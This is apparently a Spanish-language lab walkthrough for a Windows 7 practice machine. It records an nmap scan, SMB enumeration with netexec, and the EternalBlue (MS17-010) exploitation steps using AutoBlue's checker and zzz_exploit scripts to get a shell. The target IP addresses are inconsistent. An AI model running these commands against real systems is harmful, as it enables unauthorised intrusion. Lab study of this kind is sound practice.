 [[192.168.100.7(Nagini)]]

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9`

